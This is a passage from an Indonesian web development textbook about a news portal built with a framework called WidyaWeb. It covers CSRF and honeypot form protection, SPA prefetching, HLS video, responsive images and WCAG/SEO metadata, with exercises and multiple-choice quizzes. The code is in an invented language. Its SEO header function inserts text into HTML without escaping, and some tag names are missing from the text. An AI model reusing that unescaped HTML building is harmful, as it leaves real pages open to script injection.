| Fitur Proteksi | Mekanisme di WidyaWeb | Risiko yang Dimitigasi |
| :--- | :--- | :--- |
| **Token CSRF Terenkripsi** | HMAC-SHA256 terikat sesi cookie *SameSite=Strict* | Serangan Pemalsuan Permintaan Antar Situs |
| **Honeypot Hidden Input** | Input jebakan tak kasat mata bagi pengguna manusia | Penyerbuan Bot Pengisi Formulir Otomatis |
| **Sanitasi HTML Isomorfik** | Konversi otomatis karakter bahaya (`<`, `>`, `&`, `"`) | Serangan Cross-Site Scripting (XSS) |
| **Rate Limit Per IP** | Pembatasan maksimal 3 kiriman per menit per alamat IP | Penolakan Layanan Tingkat Aplikasi (DoS) |

---

## 12.4 Latihan Praktik & Studi Kasus

1. **Rancang Formulir Pengajuan Rilis Pers dengan Unggah File**: Implementasikan formulir pengiriman naskah siaran pers yang mendukung unggahan lampiran dokumen PDF maksimal 5MB dengan verifikasi tipe MIME berkas di server.
2. **Implementasi Validasi Email Real-Time Asinkron**: Tambahkan validasi langsung pada kolom surel pendaftaran akun redaksi untuk mengecek ketersediaan surel di database secara asinkron tanpa menekan tombol submit.
3. **Mekanisme Captcha Mandiri Berbasis Persamaan Matematika**: Buat komponen widget tantangan verifikasi manusia sederhana (misal: "Berapa 7 + 5?") yang dienkripsi menggunakan *nonce* sisi server.

---

## 12.5 Evaluasi Mandiri Pilihan Ganda

1. Apa keunggulan utama pola *Server Actions* pada WidyaWeb?
   - A. Mengharuskan pembuatan berkas rute API REST terpisah secara manual
   - B. Mengintegrasikan pemanggilan fungsi server langsung dari atribut form dengan penanganan state otomatis
   - C. Menghilangkan kebutuhan database pada server
   - D. Menjalankan seluruh logika server di dalam browser pengguna

2. Mengapa validasi skema harus dijalankan di kedua sisi (*isomorphic validation*: klien dan server)?
   - A. Sisi klien memberikan umpan balik cepat pada pengguna, sedangkan sisi server menjamin integritas data dari manipulasi peretas
   - B. Agar data dikompresi dua kali lipat
   - C. Validasi server sebenarnya tidak diperlukan jika browser sudah modern
   - D. Untuk memperlambat waktu respons aplikasi

3. Serangan siber apa yang dicegah melalui penyisipan token terenkripsi pada formulir web?
   - A. Distributed Denial of Service (DDoS)
   - B. Cross-Site Request Forgery (CSRF)
   - C. DNS Spoofing
   - D. Phishing Email Manual

4. Bagaimana teknik *Honeypot* bekerja dalam menangkal bot spam pada formulir web?
   - A. Mengharuskan pengguna membayar biaya pendaftaran
   - B. Menyediakan input tersembunyi dengan CSS yang tidak dilihat manusia namun diisi oleh bot otomatis
   - C. Memblokir seluruh pengguna yang menggunakan ponsel pintar
   - D. Mengubah alamat URL formulir setiap detik

5. Apa fungsi fungsi `.bersihkan_html()` pada pemrosesan input teks pengguna?
   - A. Mengubah format huruf menjadi miring (*italic*)
   - B. Menetralkan tag HTML berbahaya seperti `<script>` untuk mencegah serangan XSS
   - C. Menghapus spasi dari teks artikel
   - D. Mengunggah teks langsung ke media sosial

6. Nilai kembalian `ResponAksi::berhasil_sisip_dom("#daftar-komentar", "awal", ...)` menghasilkan efek apa pada klien?
   - A. Halaman browser di-refresh secara penuh
   - B. Browser menyisipkan fragmen komentar baru secara instan di bagian paling atas kontainer tanpa memuat ulang halaman
   - C. Menutup tab jendela browser secara paksa
   - D. Menghapus seluruh komentar yang sudah ada sebelumnya

7. Atribut cookie apa yang sangat direkomendasikan untuk mencegah kebocoran token sesi pada serangan CSRF?
   - A. `SameSite=Strict; Secure; HttpOnly`
   - B. `AllowAll=True`
   - C. `Domain=public.com`
   - D. `Max-Age=0`

8. Jika formulir gagal memenuhi aturan validasi skema, respons apa yang ideal dikembalikan ke klien?
   - A. Galat server internal kode 500
   - B. Daftar pesan kesalahan validasi terstruktur kode 422 Unprocessable Entity
   - C. Halaman kosong berwarna putih
   - D. Pengalihan paksa ke mesin pencari Google

9. Berapa panjang karakter minimal yang ditetapkan pada skema input nama pengirim komentar di atas?
   - A. 1 karakter
   - B. 3 karakter
   - C. 10 karakter
   - D. 50 karakter

10. Mengapa penyaringan kata kasar (*profanity filtering*) sebaiknya dilakukan di server action sebelum data disimpan ke database?
    - A. Memastikan kualitas dan kepantasan konten editorial yang ditampilkan kepada publik tetap terjaga
    - B. Menghemat kapasitas penyimpanan disk hingga 90%
    - C. Mempercepat proses kompilasi kode biner Widya-Lang
    - D. Memenuhi kewajiban pembayaran pajak perangkat lunak\n

---

# BAB 13: NAVIGASI SISI KLIEN SPA, PREFETCHING & VIEW TRANSITIONS

Bab ini mendalami teknik navigasi sisi klien (*Single Page Application / SPA navigation*) tanpa kedipan halaman putih (*zero white-flash*), mekanisme cerdas *speculative prefetching* tautan berita berdasarkan pergerakan kursor pembaca, sinkronisasi History API, dan implementasi transisi visual sinematik menggunakan standar Web View Transitions API.

---

## 13.1 Arsitektur Navigasi Spekulatif & View Transitions

Ketika pembaca mengklik tautan artikel di portal berita, pemuatan halaman penuh tradisional (*hard reload*) akan membuang status memori, melakukan parsing ulang berkas CSS, dan memicu kedipan layar. WidyaWeb mengatasi hal ini dengan mengintersepsi klik tautan internal, mengambil muatan HTML/JSON secara asinkron di latar belakang, dan menukar simpul konten utama menggunakan *View Transitions API*.

```mermaid
sequenceDiagram
    autonumber
    actor Pembaca as Kursor Pembaca
    participant Link as Tautan Berita (HTML Link)
    participant Prefetcher as WidyaWeb Prefetch Engine
    participant Router as SPA Client Router
    participant ViewTx as View Transitions Engine

    Pembaca->>Link: Hover kursor (65ms idle)
    Link->>Prefetcher: Trigger Spekulasi Prefetch
    Prefetcher->>Prefetcher: Ambil HTML Parsial & Simpan di Cache Memori Klien
    Pembaca->>Link: Klik Tautan Artikel
    Link->>Router: Intersepsi Navigasi Internal
    Router->>ViewTx: document.startViewTransition()
    ViewTx->>ViewTx: Tangkap Snapshot Tampilan Lama
    Router->>Router: Pasang Fragmen DOM Halaman Baru
    ViewTx->>ViewTx: Animasikan Morfologi Hero Image & Judul
    ViewTx-->>Pembaca: Tampilan Artikel Baru Selesai Berpindah Halus
```

Dengan *speculative prefetching*, konten artikel sudah tersedia di memori sebelum jari pembaca selesai menekan mouse, menghasilkan persepsi navigasi seketika (*zero perceived latency*).

---

## 13.2 Implementasi SPA Router & Handler Transisi

Berikut adalah implementasi logika navigasi sisi klien dan konfigurasi View Transitions pada antarmuka pembaca artikel:

```widya
// Modul Navigasi Klien NusantaraNews
gunakan widya::web::klien::{NavigasiKlien, TransisiTampilan, CacheMemori};
gunakan widya::web::dom::{tangkap_elemen, dokumen};

rekod KonfigurasiNavigasi {
    toleransi_hover_ms: Bulat,
    batas_maksimal_cache: Bulat,
    aktifkan_view_transitions: BenarSalah
}

fungsi InisialisasiNavigasiPortal() -> NavigasiKlien {
    tetapan cache = CacheMemori::baru(50); // Simpan maksimal 50 rute artikel
    tetapan cfg = KonfigurasiNavigasi {
        toleransi_hover_ms: 65,
        batas_maksimal_cache: 50,
        aktifkan_view_transitions: benar
    };

    // 1. Intersepsi seluruh tautan internal portal
    dokumen().pada_event("mouseover", fungsi(event: EventKursor) {
        tetapan tautan = event.target.cari_leluhur_terdekat("a[data-widya-link]");
        jika tautan != tak_ada {
            tetapan url = tautan.ambil_atribut("href");
            // Prefetch hanya jika belum tersimpan di cache klien
            jika !cache.memuat(url) {
                PrefetchSpekulatif(url, cache);
            }
        }
    });

    // 2. Tangani klik dengan transisi halus
    dokumen().pada_event("click", fungsi(event: EventKlik) {
        tetapan tautan = event.target.cari_leluhur_terdekat("a[data-widya-link]");
        jika tautan != tak_ada && !event.tombol_modifikasi_ditekan() {
            event.cegah_bawaan();
            tetapan url_tujuan = tautan.ambil_atribut("href");
            BeralihHalaman(url_tujuan, cache, cfg);
        }
    });
}

fungsi BeralihHalaman(url: Teks, cache: CacheMemori, cfg: KonfigurasiNavigasi) {
    tetapan aksi_tukar = fungsi() {
        tetapan html_baru = cache.ambil(url);
        tangkap_elemen("#konten-utama").atur_html_bagian_dalam(html_baru);
        dokumen().atur_judul(cache.ambil_metadata_judul(url));
        dokumen().riwayat_peramban().dorong_state(url);
        dokumen().gulir_ke_atas();
    };

    jika cfg.aktifkan_view_transitions && TransisiTampilan::didukung() {
        TransisiTampilan::mulai(aksi_tukar);
    } jika_tidak {
        aksi_tukar();
    }
}
```

Pada lapisan CSS, kita memetakan nama transisi untuk gambar hero agar tercipta animasi perpindahan halus (*hero element morphing*):

```css
/* Aturan Transisi Tampilan Hero Berita */
.kartu-berita .thumbnail-wrapper img {
  view-transition-name: hero-image;
}

.halaman-detail-artikel .gambar-header-hero {
  view-transition-name: hero-image;
}

::view-transition-old(hero-image),
::view-transition-new(hero-image) {
  animation-duration: 0.3s;
  animation-timing-function: cubic-bezier(0.2, 0, 0, 1);
}
```

---

## 13.3 Analisis Metrik Latensi Pemuatan Navigasi

Navigasi spekulatif memangkas *Navigation Timing* hingga mendekati batas waktu fisik monitor (0–16 ms).

| Skenario Navigasi | Navigasi Halaman Penuh Klasik | Client-Side SPA Polos | WidyaWeb Prefetch + View Transitions |
| :--- | :--- | :--- | :--- |
| **Latensi Respons Klik** | 450 ms – 1200 ms | 120 ms – 300 ms | < 15 ms (Instan dari Cache) |
| **Konsumsi Jaringan saat Klik** | Mengunduh seluruh HTML, CSS, JS | Meminta data API JSON | 0 B (Data telah terambil di awal) |
| **Visual Flickering (Layar Putih)** | Selalu Terjadi (FOUC) | Terkadang Terlihat | Nol (Transisi Morfologi Lembut) |
| **Beban CPU Server per Klik** | Query penuh & perakitan | Query JSON | Nol (Terlayani dari tepi/klien) |

---

## 13.4 Latihan Praktik & Studi Kasus

1. **Implementasi Pembatalan Prefetch (Debouncing)**: Perbaiki fungsi prefetch agar tidak mengunduh data jika kursor hanya melintas cepat di atas tautan kurang dari 50ms.
2. **Indikator Progres Bar Tipis di Atas Layar**: Buat komponen garis pemuatan tipis (*Top Progress Bar*) dengan warna gradasi merah yang muncul jika proses pengambilan rute memakan waktu lebih dari 150ms.
3. **Restorasi Posisi Gulir Riwayat (Scroll Restoration)**: Implementasikan penyimpanan posisi gulir piksel vertikal saat pembaca menekan tombol *Back* pada peramban agar kembali tepat ke posisi artikel sebelumnya.

---

## 13.5 Evaluasi Mandiri Pilihan Ganda

1. Apa tujuan utama dari fitur *Speculative Prefetching* pada portal berita NusantaraNews?
   - A. Menghapus riwayat penjelajahan pembaca
   - B. Mengunduh data artikel berikutnya di latar belakang saat kursor menyentuh tautan sebelum diklik
   - C. Mengunci antarmuka browser agar tidak dapat diubah
   - D. Menjalankan skrip penambangan data kripto

2. API standar web modern apa yang digunakan untuk menganimasikan peralihan elemen visual antar rute secara mulus?
   - A. Canvas 2D API
   - B. View Transitions API
   - C. Web Audio API
   - D. Web Bluetooth API

3. Properti CSS apa yang disematkan pada elemen gambar agar dapat bertransisi secara mulus dari kartu feed ke halaman detail?
   - A. `transform: rotate(45deg);`
   - B. `view-transition-name: hero-image;`
   - C. `filter: blur(5px);`
   - D. `display: none;`

4. Berapa durasi rata-rata jeda kursor manusia (*hover-to-click delay*) yang dimanfaatkan untuk melakukan prefetching spekulatif?
   - A. Kurang lebih 65 ms hingga 200 ms
   - B. Tepat 5 menit
   - C. 1 mikrodetik
   - D. Tidak ada jeda sama sekali

5. Mengapa tautan yang diklik sambil menekan tombol modifikasi (seperti `Ctrl+Click` atau `Cmd+Click`) tidak boleh diintersepsi oleh router SPA?
   - A. Karena akan merusak memori RAM peramban
   - B. Menghormati perilaku alami peramban untuk membuka tautan pada tab atau jendela baru
   - C. Peramban akan langsung memblokir alamat IP portal
   - D. Bahasa Widya-Lang tidak mendukung penekanan tombol keyboard ganda

6. Metode peramban apa yang digunakan untuk memperbarui URL pada bilah alamat tanpa memicu reload halaman penuh?
   - A. `window.location.reload()`
   - B. `history.pushState()`
   - C. `document.clear()`
   - D. `window.close()`

7. Berapa konsumsi transfer jaringan tambahan saat pengguna mengklik artikel yang telah di-prefetch sebelumnya?
   - A. 10 Megabyte
   - B. 0 Byte karena data disajikan langsung dari cache memori klien
   - C. 500 Kilobyte
   - D. Tergantung kecepatan kipas prosesor komputer

8. Apa fungsi dari parameter `batas_maksimal_cache: 50` pada implementasi `CacheMemori` di atas?
   - A. Mencegah pertumbuhan memori tak terbatas di peramban klien dengan strategi LRU (*Least Recently Used*)
   - B. Membatasi pembaca hanya boleh membaca 50 kata per hari
   - C. Memaksa server mematikan koneksi setelah 50 detik
   - D. Menghapus 50 artikel dari database WidyaBase

9. Kapan fungsi pembaruan DOM dalam `TransisiTampilan::mulai(aksi_tukar)` dieksekusi?
   - A. Setelah browser mengambil cuplikan visual (*snapshot*) dari tampilan lama
   - B. Tepat sebelum browser dibuka oleh pengguna
   - C. Di tengah-tengah proses *compiling* kode Rust
   - D. Saat sistem operasi mengalami mati daya listrik

10. Bagaimana cara memastikan peramban lama yang belum mendukung View Transitions API tetap dapat membuka halaman tanpa galat (*graceful degradation*)?
    - A. Memblokir akses pengunjung yang menggunakan browser lama
    - B. Mengecek ketersediaan fitur dengan kondisi `TransisiTampilan::didukung()` dan menjalankan fungsi pergantian DOM secara langsung jika tidak didukung
    - C. Mengirimkan berkas installer browser terbaru ke komputer pengguna
    - D. Menghapus seluruh berkas CSS dari server

---

# BAB 14: KOMPONEN MEDIA STREAMING VIDEO HLS & GALERI GAMBAR MODERN

Bab ini membahas integrasi media berperforma tinggi untuk portal berita NusantaraNews: pemutaran video siaran langsung dan rekaman investigasi menggunakan protokol HTTP Live Streaming (HLS / m3u8), penyesuaian bitrate adaptif (ABR), optimasi kompresi gambar generasi terbaru (AVIF & WebP), dan pemuatan responsif berskala piksel (*srcset* & *picture* element).

---

## 14.1 Arsitektur Pengiriman Media & Protokol HLS

Konten berita modern sangat bergantung pada kecepatan distribusi multimedia. Gambar berukuran megabyte yang tidak dioptimalkan atau buffering video yang lambat akan membuat pembaca beralih ke portal lain.



Untuk aset gambar berita, sistem menerapkan pipeline konversi otomatis saat berkas diunggah oleh jurnalis, memproduksi varian AVIF (kompresi superior) dan WebP (kompatibilitas tinggi) dengan berbagai resolusi layar.

---

## 14.2 Implementasi Komponen Pemutar HLS & Elemen Gambar Cerdas

Berikut adalah implementasi komponen pemutar video HLS kustom bertaraf editorial dan komponen gambar adaptif multi-format:

```widya
// Modul Komponen Multimedia NusantaraNews
gunakan widya::web::media::{KomponenVideo, FormatGambar, OpsiVideo};
gunakan widya::web::html::{div, video, picture, source, img, span};

rekod VideoNewsProps {
    id: Teks,
    playlist_m3u8: Teks,
    poster_url: Teks,
    judul: Teks,
    siaran_langsung: BenarSalah
}

fungsi KomponenVideoNews(props: VideoNewsProps) -> KomponenVideo {
    kembalikan div("kelas: 'wadah-pemutar-video modern-player'", [
        jika props.siaran_langsung {
            span("kelas: 'live-badge pulsing'", "● LIVE NEWS")
        } jika_tidak {
            div("kelas: 'durasi-badge'", "03:45")
        },
        video("id: 'video-" + props.id + "', " +
              "controls: true, " +
              "preload: 'metadata', " +
              "poster: '" + props.poster_url + "', " +
              "data-hls-src: '" + props.playlist_m3u8 + "', " +
              "kelas: 'w-full h-auto aspect-video'")
    ]);
}

rekod GambarResponsifProps {
    slug_gambar: Teks,
    deskripsi_alt: Teks,
    lebar: Bulat,
    tinggi: Bulat
}

fungsi KomponenGambarEditorial(props: GambarResponsifProps) -> Komponen {
    tetapan base_url = "https://cdn.nusantaranews.id/media/";
    
    kembalikan picture("kelas: 'gambar-responsif-wrapper'", [
        // 1. Format AVIF Modern untuk peramban mutakhir (kompresi hemat 50%)
        source("type: 'image/avif', srcset: '" + 
               base_url + props.slug_gambar + "-400w.avif 400w, " +
               base_url + props.slug_gambar + "-800w.avif 800w, " +
               base_url + props.slug_gambar + "-1200w.avif 1200w', " +
               "sizes: '(max-width: 640px) 100vw, (max-width: 1024px) 50vw, 800px'"),
               
        // 2. Format WebP cadangan untuk kompatibilitas luas
        source("type: 'image/webp', srcset: '" + 
               base_url + props.slug_gambar + "-400w.webp 400w, " +
               base_url + props.slug_gambar + "-800w.webp 800w, " +
               base_url + props.slug_gambar + "-1200w.webp 1200w', " +
               "sizes: '(max-width: 640px) 100vw, (max-width: 1024px) 50vw, 800px'"),
               
        // 3. Cadangan Terakhir JPEG Universal
        img("src: '" + base_url + props.slug_gambar + "-800w.jpg', " +
            "alt: '" + props.deskripsi_alt + "', " +
            "width: '" + props.lebar.ke_teks() + "', " +
            "height: '" + props.tinggi.ke_teks() + "', " +
            "loading: 'lazy', " +
            "decoding: 'async', " +
            "kelas: 'editorial-foto-utama'")
    ]);
}
```

---

## 14.3 Analisis Efisiensi Kompresi & Kinerja Bandwidth

Penerapan format AVIF dan penyesuaian bitrate adaptif HLS menurunkan konsumsi transfer data bulanan secara masif.

| Format Media | Rata-rata Ukuran Berkas Foto | Penghematan Bandwidth | Efisiensi Decoding Klien |
| :--- | :--- | :--- | :--- |
| **JPEG Klasik (Kualitas 80%)** | 420 KB | 0% (Tolok Ukur Acuan) | Sangat Cepat (Akselerasi CPU Bawaan) |
| **WebP (Kualitas 80%)** | 215 KB | 48.8% Lebih Hemat | Sangat Cepat di Semua Browser Modern |
| **AVIF (Kualitas 65% - Visually Lossless)** | 110 KB | 73.8% Lebih Hemat | Cepat (Hardware Decoder AV1 Modern) |

---

## 14.4 Latihan Praktik & Studi Kasus

1. **Implementasi Pemutar Siaran Radio Suara Berita (Audio Live Streaming)**: Buat komponen pemutar audio ringkas yang menyiarkan buletin suara langsung NusantaraNews Radio menggunakan *Icecast / HLS Audio Stream*.
2. **Fitur Gambar Zoom Modal Interaktif (Lightbox)**: Kembangkan komponen galeri foto jurnalistik yang menampilkan gambar beresolusi penuh dalam modal gelap saat thumbnail diklik.
3. **Pemuatan Pratinjau Blur Sederhana (BlurHash / LQIP)**: Implementasikan pemuatan gambar bergaya *Low Quality Image Placeholder* (LQIP) berukuran 20 piksel yang dikaburkan sebelum berkas gambar resolusi tinggi selesai dimuat.

---

## 14.5 Evaluasi Mandiri Pilihan Ganda

1. Protokol standar industri apa yang digunakan untuk transmisi streaming video adaptif berbasis segmen HTTP pada web?
   - A. FTP murni
   - B. HTTP Live Streaming (HLS) dengan berkas indeks `.m3u8`
   - C. Telnet Terminal Streaming
   - D. SMTP Email Attachment

2. Apa keuntungan utama arsitektur *Adaptive Bitrate Streaming* (ABR)?
   - A. Mengubah video menjadi hitam putih saat malam hari
   - B. Menyesuaikan resolusi video secara dinamis sesuai kualitas sinyal koneksi internet pengguna tanpa memutus pemutaran
   - C. Memaksa pengguna mengunduh seluruh berkas video sekaligus
   - D. Menghapus audio dari video siaran langsung

3. Format gambar generasi baru manakah yang menawarkan rasio kompresi terbaik dengan pengurangan ukuran berkas hingga lebih dari 70% dibanding JPEG?
   - A. BMP
   - B. AVIF
   - C. GIF
   - D. TIFF

4. Mengapa elemen `<picture>` lebih direkomendasikan daripada tag `` tunggal untuk foto editorial berita?
   - A. Karena tag `` sudah dihapus dari standar HTML
   - B. Memungkinkan browser memilih format berkas terbaik (AVIF -> WebP -> JPG) sesuai dukungan peramban masing-masing
   - C. Mempercepat proses perakitan prosesor server
   - D. Mengharuskan gambar dicetak ke kertas printer

5. Atribut `decoding: 'async'` pada elemen gambar berfungsi untuk apa?
   - A. Memperlambat proses penguraian gambar di peramban
   - B. Melakukan proses dekode gambar di luar alur utama (*main thread*) agar antarmuka tidak mengalami stutter (*jank-free*)
   - C. Mengirim gambar ke server analitik pihak ketiga
   - D. Mengubah format warna gambar menjadi monokrom

6. Apa peran berkas berekstensi `.m3u8` dalam alur pemutaran HLS?
   - A. Menyimpan kode sumber JavaScript aplikasi
   - B. Berkas manifes teks daftar putar yang memetakan segmen video (`.ts` / `.m4s`) beserta varian bitrate
   - C. Berkas biner basis data SQL
   - D. Sertifikat kunci enkripsi SSL/TLS

7. Mengapa atribut `width` dan `height` tetap wajib dicantumkan pada tag gambar meskipun styling responsif menggunakan CSS?
   - A. Membantu browser menghitung rasio aspek bawaan dan mencegah lonjakan layout shift (CLS)
   - B. Membatasi ukuran fisik layar komputer pengguna
   - C. Memenuhi syarat agar gambar dapat dibaca oleh pembaca layar tunanetra
   - D. Mengubah resolusi kamera fotografer secara otomatis

8. Dalam atribut `sizes: '(max-width: 640px) 100vw, 800px'`, apa yang diinstruksikan kepada browser?
   - A. Layar di bawah 640px akan menggunakan lebar 100% viewport, sedangkan layar lebih lebar diasumsikan 800px untuk pemilihan berkas `srcset`
   - B. Menghapus gambar jika layar lebih kecil dari 640 piksel
   - C. Mengubah warna latar belakang menjadi merah
   - D. Mengunduh 800 gambar secara paralel

9. Komponen lencana "● LIVE NEWS" yang berkedip menggunakan teknik animasi apa?
   - A. Menghubungi server setiap 1 milidetik
   - B. Animasi CSS kustom `@keyframes pulse { 0%, 100% { opacity: 1; } 50% { opacity: 0.4; } }`
   - C. Merestart peramban setiap beberapa detik
   - D. Mengirim pesan peringatan suara ke pembicara laptop

10. Apa manfaat penggunaan *Low Quality Image Placeholder* (LQIP) pada portal berita?
    - A. Mempercepat koneksi internet pelanggan
    - B. Memberikan umpan balik visual instan berupa bayangan siluet warna lembut saat gambar resolusi tinggi sedang diunduh
    - C. Menghemat konsumsi baterai ponsel hingga 99%
    - D. Menghapus teks artikel di sekitar gambar

---

# BAB 15: AKSESIBILITAS WEB WCAG 2.1 & OPTIMASI SEO SCHEMA.ORG

Bab ini mengupas tuntas kepatuhan aksesibilitas universal sesuai standar Web Content Accessibility Guidelines (WCAG 2.1 AA/AAA) untuk seluruh kalangan pembaca, serta penerapan arsitektur Search Engine Optimization (SEO) teknis tingkat lanjut mencakup JSON-LD Schema.org, Open Graph, dan Twitter Cards pada portal berita NusantaraNews.

---

## 15.1 Arsitektur Aksesibilitas Universal & Metadata Semantik

Sebuah portal berita nasional memiliki tanggung jawab moral dan hukum untuk dapat diakses oleh semua lapisan masyarakat, termasuk tunanetra yang mengandalkan pembaca layar (*screen reader*), pengguna tunarungu, serta mereka yang mengalami keterbatasan motorik navigasi keyboard.



---

## 15.2 Implementasi Injeksi Schema.org & Komponen Navigasi Aksesibel

Berikut adalah modul pembangun metadata SEO terstruktur dan tautan lompat aksesibilitas (*Skip to Main Content*):

```widya
// Modul Aksesibilitas & SEO NusantaraNews
gunakan widya::web::seo::{MetadataArtikel, SkemaBerita, SkemaOrganisasi};
gunakan widya::web::html::{div, a, script_json, meta, link};

rekod DetailArtikelSEO {
    id: Teks,
    judul: Teks,
    deskripsi: Teks,
    penulis: Teks,
    url_halaman: Teks,
    url_gambar: Teks,
    tanggal_terbit: Teks,
    tanggal_diubah: Teks,
    nama_penerbit: Teks,
    logo_penerbit: Teks
}

fungsi HasilkanHeaderSEO(d: DetailArtikelSEO) -> Teks {
    // 1. Pembuatan Struktur Schema.org NewsArticle
    tetapan skema_json = {
        "@context": "https://schema.org",
        "@type": "NewsArticle",
        "mainEntityOfPage": {
            "@type": "WebPage",
            "@id": d.url_halaman
        },
        "headline": d.judul,
        "description": d.deskripsi,
        "image": [d.url_gambar],
        "datePublished": d.tanggal_terbit,
        "dateModified": d.tanggal_diubah,
        "author": {
            "@type": "Person",
            "name": d.penulis
        },
        "publisher": {
            "@type": "Organization",
            "name": d.nama_penerbit,
            "logo": {
                "@type": "ImageObject",
                "url": d.logo_penerbit
            }
        }
    };

    // 2. Format Fragmen Tag Head HTML
    kembalikan 
        "<title>" + d.judul + " | NusantaraNews</title>\n" +
        "<meta name=\"description\" content=\"" + d.deskripsi + "\">\n" +
        "<link rel=\"canonical\" href=\"" + d.url_halaman + "\">\n" +
        "<!-- Open Graph Sosial Media -->\n" +
        "<meta property=\"og:type\" content=\"article\">\n" +
        "<meta property=\"og:title\" content=\"" + d.judul + "\">\n" +
        "<meta property=\"og:description\" content=\"" + d.deskripsi + "\">\n" +
        "<meta property=\"og:image\" content=\"" + d.url_gambar + "\">\n" +
        "<meta property=\"og:url\" content=\"" + d.url_halaman + "\">\n" +
        "<!-- Schema.org Terstruktur JSON-LD -->\n" +
        "<script type=\"application/ld+json\">\n" +
        skema_json.ke_json_teks() + "\n" +
        "</script>";
}

// 3. Komponen Tautan Lompat Aksesibilitas (WCAG 2.4.1)
fungsi KomponenSkipToContent() -> Komponen {
    kembalikan a(
        "href: '#konten-utama', " +
        "kelas: 'skip-link sr-only focus:not-sr-only'",
        "Lompat langsung ke konten utama artikel"
    );
}
```

Dukungan gaya CSS untuk navigasi fokus yang jelas dan terbaca:

```css
/* Aturan Aksesibilitas WCAG */
.skip-link {
  position: absolute;
  top: -100px;
  left: 1rem;
  background: var(--color-primary-dark);
  color: #ffffff;
  padding: 0.75rem 1.25rem;
  z-index: 99999;
  border-radius: var(--radius-sm);
  font-weight: 700;
  transition: top 0.2s ease;
}

.skip-link:focus {
  top: 1rem;
  outline: 3px solid var(--color-accent-breaking);
}

:focus-visible {
  outline: 2px solid var(--color-primary-base);
  outline-offset: 3px;
}
```

---

## 15.3 Analisis Kepatuhan Audit Google Lighthouse

Penerapan standar WCAG dan Schema.org menghasilkan skor sempurna 100/100 pada audit resmi Google Lighthouse.

| Parameter Audit | Skor NusantaraNews | Praktik Terbaik yang Diterapkan |
| :--- | :--- | :--- |
| **Accessibility (A11y)** | 100 / 100 | Hirarki heading rapi, kontras warna $\ge 4.5:1$, atribut alt lengkap |
| **Search Engine Optimization (SEO)** | 100 / 100 | Metadata JSON-LD NewsArticle valid, kanonikal terpasang, mobile-friendly |
| **Best Practices** | 100 / 100 | HTTPS murni, bebas peringatan konsol, aspek rasio media terjaga |
| **Performance** | 99 / 100 | Perenderan cepat, Core Web Vitals serba hijau |

---

## 15.4 Latihan Praktik & Studi Kasus

1. **Implementasi Penanda Siaran Berita Langsung (`aria-live="polite"`)**: Kembangkan kotak pembaruan teks cepat (*live blog ticker*) yang membacakan laporan perkembangan berita kepada pembaca layar secara otomatis tanpa memutus konsentrasi pengguna.
2. **Audit Rasio Kontras Palet Warna Tombol**: Hitung rasio kontras warna tombol *Breaking News* terhadap latar belakang putih dan latar belakang gelap untuk memastikan kepatuhan minimum 4.5:1 WCAG AA.
3. **Penyusunan Skema BreadcrumbList**: Tambahkan skema JSON-LD untuk navigasi remah roti (*Home > Nasional > Politik > Judul Artikel*) guna memperkaya tampilan hasil pencarian di Google Search (*Rich Snippets*).

---

## 15.5 Evaluasi Mandiri Pilihan Ganda

1. Kategori skema Schema.org apa yang paling tepat disematkan pada halaman berita digital untuk memicu fitur Google News Carousels?
   - A. `LocalBusiness`
   - B. `NewsArticle`
   - C. `SoftwareApplication`
   - D. `Recipe`

2. Apa fungsi dari tautan aksesibilitas "Skip to Main Content" pada situs berita?
   - A. Menutup jendela peramban secara mendadak
   - B. Mengizinkan pengguna navigasi keyboard melompati deretan menu header dan langsung menuju badan utama berita
   - C. Menghapus komentar pembaca
   - D. Mempercepat koneksi internet satelit

3. Berapa rasio kontras warna teks normal minimum terhadap latar belakang yang disyaratkan oleh standar WCAG 2.1 Level AA?
   - A. 1:1
   - B. 2:1
   - C. 4.5:1
   - D. 20:1

4. Atribut HTML apa yang wajib disematkan pada tag `` agar konten visual dapat dipahami oleh pengguna pembaca layar tunanetra?
   - A. Atribut `alt` yang mendeskripsikan konteks visual gambar secara akurat
   - B. Atribut `download`
   - C. Atribut `onclick`
   - D. Atribut `style`

5. Mengapa gaya pemilih `:focus-visible` sangat penting dipertahankan dan tidak boleh dinonaktifkan (`outline: none`)?
   - A. Menampilkan indikator cincin fokus yang jelas bagi pengguna yang menavigasi web menggunakan keyboard (tombol Tab)
   - B. Mempercepat kompresi biner HTTP/2
   - C. Mencegah komputer terkena malware
   - D. Menghapus iklan dari situs berita

6. Format data apa yang direkomendasikan secara resmi oleh Google untuk menyematkan data terstruktur mesin pencari di dalam tag `<head>`?
   - A. XML mentah
   - B. JSON-LD (`application/ld+json`)
   - C. CSV berkas teks
   - D. Berkas biner database SQLite

7. Apa tujuan pemasangan tag kanonikal `<link rel="canonical" href="...">` pada setiap artikel berita?
   - A. Mencegah penalti konten duplikat pada mesin pencari jika artikel diakses melalui berbagai parameter URL pelacak
   - B. Mematikan fitur pencarian pada server
   - C. Menghapus arsip berita lama
   - D. Mempercepat pergantian tema peramban

8. Atribut ARIA `aria-live="polite"` bertindak untuk:
   - A. Mengirim email pemberitahuan ke jurnalis
   - B. Memerintahkan pembaca layar untuk mengumumkan perubahan konten dinamis secara sopan setelah pembaca layar menyelesaikan kalimat aktifnya
   - C. Membungkam seluruh audio komputer
